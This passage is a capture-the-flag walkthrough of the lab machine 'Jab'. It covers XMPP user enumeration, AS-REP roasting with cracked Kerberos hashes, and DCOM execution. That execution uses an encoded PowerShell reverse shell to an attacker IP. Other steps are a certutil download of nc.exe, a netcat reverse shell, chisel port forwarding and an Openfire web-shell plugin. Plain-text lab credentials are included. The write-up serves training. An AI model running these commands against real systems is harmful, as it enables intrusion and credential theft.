5223/tcp  open  ssl/jabber          Ignite Realtime Openfire Jabber server 3.10.0 or later
```


```
5262/tcp  open  jabber5262/tcp  open  jabber
```

```
5263/tcp  open  ssl/jabber5263/tcp  open  ssl/jabber
```


```
5269/tcp  open  xmpp                Wildfire XMPP Client
```


```
5270/tcp  open  ssl/xmpp            Wildfire XMPP Client
```

```
5275/tcp  open  jabber
```

```
5276/tcp  open  ssl/jabber5276/tcp  open  ssl/jabber
```


```
7070/tcp  open  realserver?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP: 
|     HTTP/1.1 400 Illegal character CNTL=0x0
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x0</pre>
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Fri, 15 Mar 2024 11:17:41 GMT
|     Last-Modified: Wed, 16 Feb 2022 15:55:02 GMT
|     Content-Type: text/html
|     Accept-Ranges: bytes
|     Content-Length: 223
|     <html>
|     <head><title>Openfire HTTP Binding Service</title></head>
|     <body><font face="Arial, Helvetica"><b>Openfire <a href="http://www.xmpp.org/extensions/xep-0124.html">HTTP Binding</a> Service</b>
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
```


#### XMPP Extensions (XEP)

&#x20;XEPs provide additional features on a Jabber server, such as Multi-User Chat (chatrooms), the ability to exchange vCards, VoIP, and much more. Hundreds of XEPs have been published over the years, providing a variety of functionality that may be of interest from a security perspective.

Here seems to be a XEP installed on Jabber server:




<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Pidgin client allow to list the rooms configured on XMPP server:

<figure><figcaption></figcaption></figure>

Trying to join the room "test" return an error:

<figure><figcaption></figcaption></figure>

Instead if we enter the room test2 we can see previous messages in the chat sent by bdavis:

<figure><figcaption></figcaption></figure>

```html

```

We can confirm that the user `bdavis` exists by using the `Search for Users` functionality using wildcard:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

With some file tampering and cleaning we can get an xml file:

<figure><figcaption></figcaption></figure>

To make it easier to extract the data with powershell, I modify the header resulting in an xml like this:

<figure><figcaption></figcaption></figure>

After some corrections still of errors present during export (<mark style="color:red;">**a kick in the butt this part!**</mark>), finally extract usernames using Powershell:

```powershell
PS D:\Download> $data.users | ForEach-Object {$_.item.jid}
PS D:\Download> [xml]$Data=Get-Content .\log_pidgin.xml
PS D:\Download> $data.users | ForEach-Object {$_.item.Name} | Select-Object -First 10
value
-----
Lucia McCarty
Nathan Englert
Arlene Slater
Richard Truelove
Paula Woodland
Paul Parodi
Mark Hernandez
Albert Torres
Amanda Pugh
Lonnie Ray


PS D:\Download> $data.users | ForEach-Object {$_.item.Username} | Select-Object -First 10

value
-----
lmccarty
nenglert
aslater
rtruelove
pwoodland
pparodi
mhernandez
atorres
apugh
lray


PS D:\Download> $data.users | ForEach-Object {$_.item.Email} | Select-Object -First 10

value
-----
lmccarty@jab.htb
nenglert@jab.htb
aslater@jab.htb
rtruelove@jab.htb
pwoodland@jab.htb
pparodi@jab.htb
mhernandez@jab.htb
atorres@jab.htb
apugh@jab.htb
lray@jab.htb
```


```powershell
$data.users | ForEach-Object {$_.item.username} | Out-File -FilePath "users-jab.txt" -Encoding UTF8
```


Finally enumerates against Kerberos.

### KERBEROS 88

Try to enumerate users without Kerberos PRE-AUTH required:


```bash
GetNPUsers.py jab.htb/ -usersfile users-jab.txt -format hashcat -outputfile hashes.asreproast
```



```bash
cat hashes.asreproast 
$krb5asrep$23$jmontgomery@JAB.HTB:6c44043f29e86c556304429ad6a7421a$22fd788faa40eced2a33e3b24cf0ed4645b18c03c2ff545ceccd1a24ebd60b1d0e7d86a3b31c176af0b4d68b66317aa66bb1de8c131a7658e0fdab13875726f0f4b88381f5acda87d094b3bae17cb7a8c8d9a6e3eb9a846ee03f58e86b76a6991c1a653de0bd1a2b2914e54d0a8ff2cd01640afc5e6c154ca1a5ced3887f2b63984f90e818a55cae84e95c04ddb1e33b01478e31bda70687d119c8071abbef48531d63ef0e5190bde226c9b3422867118ec647496cacda3ba62737e2b3c114862ebe22d6557814260c25f4dbd5599d8c5870a7aa76ba61bb8a7834e4bca67c1746e3
$krb5asrep$23$lbradford@JAB.HTB:b0becf50e7f138aa2a76cb7560a40d4f$6521cde4bfd1647d9ba0d7c88aa1ba7132aedc0696623d403f7ba58e7985211225d4c7ce3e4bae6e8dab48395d05ddc2b7ac2a8ef8d01ad108841dddeb326338b51163b881d6cce594097396001696ed96dfa5e4c3f04efbd3715e15f74b9cefea6eb50403798845c47f2ae151a2e7f91be2c2386850bd586ceec76cf88b055d978473bf1d9b1cda2a17de1546f951dd774f4ca1a21a72652d1e30f9a6666230f737443f3dde90a9fa3273b53dd860f92820ebd1cc296206a6a11e4d89a62c7a2c2d8d6d0f9ecebb0f0c47ba0af0a9f29c7c941a35e9db941341f9ace08ba3ad8e95
$krb5asrep$23$mlowe@JAB.HTB:36cb6c512ee5dc5b0d2addf7c22d5acb$bb5168ede7783545f00dc14adb22ad253e1e9334511ce45d85303de210325e4b02581c7ebf173256a54e4e960f5484bc941b2ebbae8cfc88795499e668f0218dcb382ff9df555cae4e541fe994d00c779d2d9ab9d67d8210c9918ddff66036ca89ca61cad5b29c0f9e271470a2911c2ad251d2b0965d4ebad2eee3d7bc45f9ef8e6a788e6d16a51c7a640522d47a9ca69bca068a5974f94e8092a629282d3a07db02dc8fedef0b8518fe75065d2b85696bbd9e71466e0e534a633198bc7dcd37df4158ac1cadfdb8b81cccd842d616764eeaa89e10c050fda9cb3da39b04588472b4

```


```bash
john hashes.asreproast --wordlist=/usr/share/wordlists/rockyou.txt
```


```bash
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Midnight_121     ($krb5asrep$23$jmontgomery@JAB.HTB)     
1g 0:00:00:29 DONE (2024-03-16 08:52) 0.03397g/s 487385p/s 1342Kc/s 1342KC/s  0841079575..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```


### Lateral Movement as jmontgomery

#### SMB 445

Try to lateral move against SMB without success:

```bash
smbmap -u "jmontgomery" -p "Midnight_121" -H jab.htb -P 445
```

<figure><figcaption></figcaption></figure>

#### XMPP

Login as `jmontgomery` with Pidgin and list available rooms:

<figure><figcaption></figcaption></figure>

There is a pentest2003 room, entering we can see some interesting infos:

<figure><figcaption></figcaption></figure>

We have obtained another valid password for `svc_openfire` service account!

<figure><figcaption></figcaption></figure>

#### LDAPS 636

Try to enumerate users against LDAP (plain) over 389 seems to not work:


```bash
ldapdomaindump -u jab.htb\\jmontgomery -p 'Midnight_121' ldap://jab.htb        
[*] Connecting to host...
[*] Binding to host
[!] Could not bind with specified credentials
[!] {'result': 8, 'description': 'strongerAuthRequired', 'dn': '', 'message': '00002028: LdapErr: DSID-0C090389, comment: The server requires binds to turn on integrity checking if SSL\\TLS are not already active on the connection, data 0, v4563\x00', 'referrals': None, 'saslCreds': None, 'type': 'bindResponse'}
                                                                                                            
```


Against LDAPS (encrypted SSL) over 636 we dump the infrastructure (that's seems to be very complex):

```bash
ldapdomaindump -u jab.htb\\jmontgomery -p 'Midnight_121' ldaps://jab.htb
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

Use `Bloodhound` to enumerate with graphic support:


```bash
sudo bloodhound-python -d jab.htb -u jmontgomery -p Midnight_121 -ns 10.10.11.4 -c all
```


<figure><figcaption></figcaption></figure>

Confirm the AS-REP Roastable users finding in precedence:

<figure><figcaption></figcaption></figure>

### Lateral Movement as svc\_openfire

If we try to search for an attack path using Bloodhound from `SVC_OPENFIRE` to `Administrator@JAB.HTB` we are offered `ExecuteDCOM`. Let's go!

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

`svc_openfire` is part of group `DISTRIBUTED COM USERS`:

<figure><figcaption></figcaption></figure>

### Enumeration Info

* domain: JAB
* domain controller: DC01.jab.htb
* SMB signing enabled and required
* XMPP exposed
* domain users list exported
* `jmontgomery` -> `Midnight_121`
  * No SMB access
  * access to pentest2003
* `svc_openfire` -> `!@#$%^&*(1qazxsw`

## Exploitation (user)

First on attacker machine run pwncat to obtain a reverse shell:

```bash
sudo pwncat -l 80
```

Run the following command to trigger the execution of remote DCOM MMC20.Application method `ExecuteShellCommand` under `Document.ActiveView`:


```bash
dcomexec.py 'jab.htb/svc_openfire:!@#$%^&*(1qazxsw@10.10.11.4' 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA1AC4AMQAwADEAIgAsADgAMAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA='  -nooutput -object MMC20 -dc-ip 10.10.11.4
```


<figure><figcaption></figcaption></figure>

We will obtain a remote shell on DC01:

<figure><figcaption></figcaption></figure>

And the user flag:

<figure><figcaption></figcaption></figure>

## Privilege Escalation

Download from attacker machine the WinPeas script using a Python Web Server and `certutil`:

<figure><figcaption></figcaption></figure>

But seems to not run correctl probably due to `RemoteSigned` ExecutionPolicy:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

So try to obtain a more stabilized shell, using `nc.exe`:

<figure><figcaption></figcaption></figure>

```bash
certutil.exe -f -urlcache http://10.10.15.101:8000/nc.exe nc.exe
```

<figure><figcaption></figcaption></figure>

Now start a listener on attacker machine:

```bash
pwncat -l 80
```

Start a reverse shell spawning a CMD:

```powershell
.\nc.exe 10.10.15.101 80 -e 'cmd.exe'
```

And run again WinPeas...

<figure><figcaption></figcaption></figure>

Also we find some strange ports (`OpenFire`):

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Confirm that is a WebApp by requesting the page:

```
Invoke-WebRequest -Uri http://127.0.0.1:9090/ -UseBasicParsing
```

<figure><figcaption></figcaption></figure>

### Port Forwarding

Use `Chisel` to port-forward and bind attacker machine local port 9090 and 9091 to victim's 9090 and 9091.

On victim's machine, run `chisel` as client:

```powershell
.\chisel.exe client 10.10.15.101:7070 R:9090:127.0.0.1:9090 R:9091:127.0.0.1:9091
```

<figure><figcaption></figcaption></figure>

On attacker machine run `chisel` as server:

```bash
chisel server -p 7070 --reverse
```

<figure><figcaption></figcaption></figure>

Now we can access OpenFire console from Kali:

<figure><figcaption></figcaption></figure>

Logon using `svc_openfire` credentials:

<figure><figcaption></figcaption></figure>

## Exploitation (root)

This version of OpenFire is vulnerable to RCE as explained here:



`svc_openfire` user is already Administrator:\


<figure><figcaption></figcaption></figure>


Digging in log history we can see that admin have created the user svc\_openfire as admin


<div align="left"><figure><figcaption></figcaption></figure></div>

Now we can upload a malicious web shell plugin by going to Plugins -> Browse -> Upload Plugin:



<figure><figcaption></figcaption></figure>

<figure><figcaption><p>The malicious plugin uploaded</p></figcaption></figure>

And finally using the File System mode of plugin we can navigate and find the root flag:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## References

* [https://bishopfox.com/blog/xmpp-underappreciated-attack-surface](https://bishopfox.com/blog/xmpp-underappreciated-attack-surface)
